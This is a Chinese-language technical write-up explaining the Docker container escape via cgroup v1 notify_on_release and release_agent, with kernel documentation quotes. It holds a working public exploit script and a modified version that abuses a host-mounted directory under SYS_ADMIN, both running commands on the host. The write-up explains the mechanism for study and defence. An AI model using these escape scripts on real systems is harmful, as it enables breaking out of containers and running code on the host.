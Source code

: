 # notify_on_release逃逸方式原理

## 公开的EXP
```shell
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
## notify_on_release与cgroup
既然是notify_on_release的方式，首先了解下notify_on_release机制是什么，了解notify_on_release前就需要先了解cgroup，cgroup的官方定义如下：

> cgroups是Linux内核提供的一种机制，这种机制可以根据需求把一系列系统任务及其子任务整合（或分隔）到按资源划分等级的不同组内，从而为系统资源管理提供一个统一的框架。

在Linux中cgroup的实现形式表现为一个文件系统，可以通过mount -t cgroup看到系统cgroup的挂载情况

![](media/16330951806464/16334143029012.jpg)
可以看到cgroup提供了很多子系统包括cpu、devices、blkio等
![](media/16330951806464/16334144772530.jpg)
以memory子系统为例看下每个子系统包含哪些文件
![](media/16330951806464/16334162215100.jpg)

其中memory开头的文件对内存进行控制包括内存使用量，oom之后的行为等等，除此之外主要了解下一下几个和逃逸相关的文件
* cgroup.procs：罗列所有在该cgroup中的TGID（线程组ID），即线程组中第一个进程的PID。该文件并不保证TGID有序和无重复。写一个TGID到这个文件就意味着把与其相关的线程都加到这个cgroup中
* tasks:罗列了所有在该cgroup中任务的TID，即所有进程或线程的ID。该文件并不保证任务的TID有序，把一个任务的TID写到这个文件中就意味着把这个任务加入这个cgroup中，如果这个任务所在的任务组与其不在同一个cgroup，那么会在cgroup.procs文件里记录一个该任务所在任务组的TGID值，但是该任务组的其他任务并不受影响。
* notify_on_release：0或1，表示是否在cgroup中最后一个任务退出时通知运行release agent，默认情况下是0，表示不运行，看下官方对notify_on_release的解释
  > If the notify_on_release flag is enabled (1) in a cgroup, then whenever the last task in the cgroup leaves (exits or attaches to some other cgroup) and the last child cgroup of that cgroup is removed, then the kernel runs the command specified by the contents of the "release_agent" file in that hierarchy's root directory, supplying the pathname (relative to the mount point of the cgroup file system) of the abandoned cgroup.  This enables automatic removal of abandoned cgroups. The default value of notify_on_release in the root cgroup at system boot is disabled(0).  The default value of other cgroups at creation is the current value of their parents' notify_on_release settings. The default value of a cgroup hierarchy's release_agent path is empty.

  可以简单理解为提供了以下功能：
  如果notify_on_release的值被设置为1，cgroup下所有task结束的时候（最后一个进程结束或转移到其他cgroup），那么内核就会运行root cgroup下release_agent文件中的对应路径的文件，这里还提到内核会为要执行的程序提供一个参数，但实际测试中没有发现有参数传递。
  * release_agent：
  > release_agent, can be used to register the pathname of a program that may be invoked when a cgroup in the hierarchy becomes empty
  
  指明release_agent文件内容应该指定一个可执行文件路径名。这个路径名是宿主机的路径名也就是文件的真实路径，不是在容器中看到的路径，通常用于自动化卸载无用的cgroup。并且整个文件只能存在于root cgroup，如果在下层创建release_agent文件会提示Permission denied无法创建
  
## 利用原理
  通过对这几个文件的理解，基本可以理清利用原理，
1. 需要一个可写的cgroup,直接把root cgroup的notify_on_release设置成1显然是不合理的，因为最后一步还需要移除cgroup下的所有进程，所以创建一个子cgroup然后将子cgroup的notify_on_release置为1就不会对原有设置产生影响
  
2. 需要控制一个文件，这个文件有两个特点：
   * 知道这个文件在宿主机路径
   * 在容器中可以修改这个文件内容和执行权限
  
  如果能够知道容器在宿主机上真实路径就可以满足这一要求，在容器写任意一个文件然后拼接容器的真实路径即可，exp中通过读mtab的方式获取真实路径，这个正则是在docker使用overlay方式作为存储驱动时才可以使用，除了overlay方式外还有devicemapper、vfs等，每种存储方式获取真实路径的方式并不相同，以devicemapper为例读取mtab看到的/dev/mapper/下的路径而非在真实访问用的路径但还是可以通过他构造在宿主机上的路径，devicemapper在宿主机上的目录默认是/var/lib/docker/devicemapper/mnt/<id>/rootfs，通过`sed -n 's/\/dev\/mapper\/docker\-[0-9]*:[0-9]*\-[0-9]*\-\(.*\) \/\(.*\)/\1/p' /etc/mtab`可以获取到对应的id值，最终host_path为:
  ```
  host_path='/var/lib/docker/devicemapper/mnt/'`sed -n 's/\/dev\/mapper\/docker\-[0-9]*:[0-9]*\-[0-9]*\-\(.*\) \/\(.*\)/\1/p' /etc/mtab`'/rootfs'
  ```
  
  清空子cgroup下的cgroup.procs中的所有进程，触发release_agent执行写入的命令，这里有一个问题，cgroup.procs看起来和tasks貌似区别不大，可以简单理解成cgroup.procs是进程级别的管理，tasks是进程级别的管理，在实际测试中，修改`sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"`为`sh -c "echo \$\$ > /tmp/cgrp/x/tasks"`也是同样会触发release_agent的
  
## 用处不大的tips
  除了找到容器在宿主机的真实路径外，也是有其他方式的，只满足上面这两个条件很容易可以想到挂载目录，如果以以下方式启动docker
  `docker run -it --cap-add='SYS_ADMIN' -v /tmp:/tmp/host_tmp centos bash`
  宿主机把自己的/tmp目录挂载到容器的/tmp/host_tmp目录，那么就可以借助/tmp/host_tmp完成利用，首先在进入容器时通过mount查看当前容器有哪些挂载
  ![](media/16330951806464/16336741095529.jpg)
可以看到挂载到了/tmp/host_tmp,但是看不到在宿主机上是什么路径

![](media/16330951806464/16336742339526.jpg)
通过`cat /proc/self/mountinfo | grep /tmp/host_tmp`可以确定宿主机的/tmp以rw方式挂载到了/tmp/host_tmp，修改exp如下：
```shell
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "/tmp/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /tmp/host_tmp/cmd
echo "ps aux > /tmp/output" >> /tmp/host_tmp/cmd
chmod a+x /tmp/host_tmp/cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

## 参考文档
1. https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt
2. [cgroups(7) - Linux manual page](https://man7.org/linux/man-pages/man7/cgroups.7.html)
3. [PID/TID/TGID参考](https://www.cnblogs.com/wipan/p/9488318.html)
4. [Docker存储驱动程序](https://docs.docker.com/storage/storagedriver/)
5. [procs 和tasks 的区别](http://linux.laoqinren.net/posts/hierarchy-without-controller-group/#procs-%E5%92%8Ctasks-%E7%9A%84%E5%8C%BA%E5%88%AB)